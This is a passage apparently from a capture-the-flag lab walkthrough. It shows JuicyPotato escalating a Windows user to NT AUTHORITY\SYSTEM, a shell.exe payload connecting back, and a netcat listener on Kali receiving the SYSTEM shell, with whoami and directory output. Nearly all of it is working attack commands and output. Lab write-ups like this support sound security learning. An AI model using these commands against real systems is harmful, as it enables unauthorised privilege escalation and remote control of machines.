 ```
PS C:\users\merlin\desktop> .\jp.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port

Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-z only test CLSID and print token's user
PS C:\users\merlin\desktop> .\jp.exe -t * -p shell.exe -l 9999
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 9999
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
PS C:\users\merlin\desktop>
```

On your kali machine:

```
┌──(kali㉿kali)-[~/Desktop/DownloadedScripts]
└─$ nc -lvp 9999
listening on [any] 9999 ...
connect to [10.10.14.51] from 10.129.152.190 [10.129.152.190] 49181
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>cd ../../Users/administrator
cd ../../Users/administrator

C:\Users\Administrator>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 5084-30B0

 Directory of C:\Users\Administrator

05/31/2018  12:18 AM    <DIR>          .
05/31/2018  12:18 AM    <DIR>          ..
05/31/2018  12:18 AM    <DIR>          Contacts
05/31/2018  12:18 AM    <DIR>          Desktop
05/31/2018  07:00 AM    <DIR>          Documents
06/11/2018  12:15 AM    <DIR>          Downloads
05/31/2018  12:18 AM    <DIR>          Favorites
05/31/2018  12:18 AM    <DIR>          Links
05/31/2018  12:18 AM    <DIR>          Music
05/31/2018  12:18 AM    <DIR>          Pictures
05/31/2018  12:18 AM    <DIR>          Saved Games
05/31/2018  12:18 AM    <DIR>          Searches
05/31/2018  12:18 AM    <DIR>          Videos
               0 File(s)              0 bytes
              13 Dir(s)  11,883,474,944 bytes free
```